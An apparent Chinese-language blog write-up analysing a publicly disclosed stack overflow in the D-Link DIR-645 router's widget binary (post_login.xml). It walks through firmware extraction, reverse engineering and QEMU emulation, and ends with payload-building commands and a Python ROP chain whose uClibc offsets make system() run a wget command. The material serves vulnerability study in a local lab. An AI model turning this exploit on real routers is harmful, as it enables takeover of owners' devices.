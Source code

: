 ```yaml
---
layout: post
title: "D-Link DIR-645 post_login.xml BoF"
---
```


# 0x00 背景

在看《揭秘家用路由器0day漏洞挖掘技术》这本书时，头两个讲了D-Link DIR-815和DIR-645的漏洞，在看[exploit-db](https://www.exploit-db.com/exploits/33862/)上相关利用时，可以发现[公告](http://roberto.greyhats.it/advisories/20130801-dlink-dir645.txt)中还有一个DIR-645 post_login.xml的栈溢出漏洞，本文就稍作分析利用漏洞点：

<!-- more -->

![][1]

# 0x01 搭建环境

* 操作系统：Kali 2017.2
* 交叉编译：gcc-multilib-mips-linux-gnu、gcc-multilib-mipsel-linux-gnu、gcc-multilib-mips64-linux-gnuabi64、gcc-multilib-mips64el-linux-gnuabi64
* 仿真环境：qemu-user-static、qemu-system-mips
* 固件下载：台湾官网[DIR645A1_FW103B11.zip](http://www.dlinktw.com.tw/techsupport/download.ashx?file=1642)
* binwalk[依赖](https://github.com/ReFirmLabs/binwalk/blob/master/INSTALL.md)：[sasquatch](https://github.com/devttys0/sasquatch)

安装sasquatch时会出现[./build.sh failed on Kali](https://github.com/devttys0/sasquatch/issues/21)问题，但issue中也有解决方案，binwalk解得固件和书中相同：

![][2]

# 0x02 漏洞原理

首先看看post_login.xml的认证原理：

![][3]

大意就是，接收GET请求传递的hash值并写入`/var/run/hash`文件，获取内部password写入`/var/run/password`，通过`/runtime/widgetv2/logincheck`决定login是否ok。公告中与此联系的binary是`/usr/sbin/widget`，file后直接IDA打开：

![][4]

程序比较小，使用[getopt函数](https://www.cnblogs.com/qingergege/p/5914218.html)处理参数选项，switch跳转执行不同功能，使用qemu模拟执行也可以知道其大致功能：

![][5]

简单的逆向分析后可知-a选项可使得`$s0=1`进而转入`00400C60`的逻辑，`00400C80`调用的函数接收两个参数，一个是之前写入的`/var/run/hash`文件，一个是栈上的地址`0x3A8+var_128`，自然联想这里可能是将我们传入的hash值copy至栈上，而且没有做长度限制就导致了栈溢出：

![][6]

跟进函数，内部open文件后，根据文件的size直接read至栈上，很明显的栈溢出了：

![][7]

有一个小细节是程序调用了两次widget_fread函数，第二次接收的文件应该是之前生成的文件`/var/run/password`，当后面在简单复现时需要生成该文件，不然在widget_fread中会因无法打开文件直接exit：

![][8]

# 0x03 漏洞利用

从var_128处开始溢出，$ra保存在var_4处，所以292字节后即可覆盖$ra，和公告描述一致，这里我人工打入hash、password两个文件，然后用qemu模拟调试执行：

```shell
mkdir -p ./var/run
python -c 'print "A"*292+"BBBB"' | tr -d '\n' > ./var/run/hash
python -c 'print "C"*32' | tr -d '\n' > ./var/run/password
cp $(which qemu-mipsel-static) .
chroot . ./qemu-mipsel-static -g 4444 /usr/sbin/widget -a /var/run/password
rm ./qemu-mipsel-static
rm -fr ./var/run
```

F4运行至跳转$ra处，可以看到$s0~$s7、$fp、$ra都是可以被我们控制的：

![][9]

我们默认这里是没有开启ASLR的，对于libuClibc基址的获取，可以在IDA运行至`la $t9, memset`指令，查看对应寄存器减去偏移就好，在qemu-mipsel-static下获取的基址为0x7f738000，rop链也是在书中提到过的：

![][10]

转化为代码如下：

```python
import struct

def p32(i):
    return struct.pack('<I', i)

qemu_libc = 0x7f738000
# qemu_sys_libc = 0x77f34000
# router_libc = 0x2aaf8000
system = 0x00053200
calc_system = 0x000158C8
call_system = 0x000159CC

shellcode = "A" * 0x100 # padding
shellcode += p32(qemu_libc+system-1) # $s0
shellcode += "A" * 0x10 # $s1 ~ $s4
shellcode += p32(qemu_libc+call_system) # $s5
shellcode += "A" * 0x0c # $s6 $s7 $fp
shellcode += p32(qemu_libc+calc_system) # $ra
shellcode += "A" * 0x10 # padding
shellcode += "wget http://127.0.0.1:4444" # cmd

print shellcode
```

本地exploit的效果如下：

![][11]

# 0x04 Qemu模拟

出于好奇，也想通过qemu搭建一个mipsel架构的system，在系统上试一下本地利用。首先是下载对应的[镜像](https://people.debian.org/~aurel32/qemu/mipsel/)，就可以起一个系统了：

```shell
qemu-system-mipsel -M malta -kernel vmlinux-3.2.0-4-4kc-malta -hda debian_wheezy_mipsel_standard.qcow2 -append "root=/dev/sda1 console=tty0"
```

其次面临的问题是传文件至guest，根据官方[wiki](https://wiki.qemu.org/Documentation/Networking)，我们可以在启动系统时使用端口转发，把guest的22端口转发至host的任意端口，然后就可以scp了：

```shell
-device e1000,netdev=net0
-netdev user,id=net0,hostfwd=tcp::5555-:22

ssh localhost -p 5555
```

其实qemu起的系统默认网络走的是nat，而且无法使用ping来测试网络，但是可以通过ip 10.0.2.2来访问到host，所以在host端起个SimpleHTTPServer，在guest端wget也是可以传文件的。如果你就是想桥接tap0，可以参看[Setting up Qemu with a tap interface](https://gist.github.com/extremecoders-re/e8fd8a67a515fee0c873dcafc81d811c)。

最后的问题就是调试和基址了，下载静态编译好的[gdbserver](https://github.com/mzpqnxow/gdb-static-cross/blob/master/prebuilt-static/gdbserver-7.7.1-mipsel-mips32-v1)，使用启动系统时的端口转发，就可以在host上调试guest里面的程序了：

![][12]

# 0x06 相关参考

* [Vivotek 摄像头远程栈溢出漏洞分析及利用](https://paper.seebug.org/480/)

[1]: https://wx4.sinaimg.cn/large/ee2fecafly1frdkc0lybuj20ha07d74e.jpg
[2]: https://wx3.sinaimg.cn/large/ee2fecafly1frdkc49nbyj20k008kgrg.jpg
[3]: https://wx4.sinaimg.cn/large/ee2fecafly1frdkcaa2vkj20k10gi48c.jpg
[4]: https://wx2.sinaimg.cn/large/ee2fecafly1frdkccbsg4j20kh0doq3l.jpg
[5]: https://wx4.sinaimg.cn/large/ee2fecafly1frdkcf8seaj20k005jdjp.jpg
[6]: https://wx4.sinaimg.cn/large/ee2fecafly1frdkcgjex2j21200hd75u.jpg
[7]: https://wx3.sinaimg.cn/large/ee2fecafly1frdkchu6adj20ko0ddaas.jpg
[8]: https://wx3.sinaimg.cn/large/ee2fecafly1frdkciwetnj20ge0anaal.jpg
[9]: https://wx1.sinaimg.cn/large/ee2fecafly1frdkcjvzo8j20kk0fk0tm.jpg
[10]: https://wx1.sinaimg.cn/large/ee2fecafly1frdkckqrs4j20mu0c8mxl.jpg
[11]: https://wx1.sinaimg.cn/large/ee2fecafly1frdkcugcjyj214k0en7nj.jpg
[12]: https://wx2.sinaimg.cn/large/ee2fecafly1frdkcwtespj20kl0gwq6h.jpg
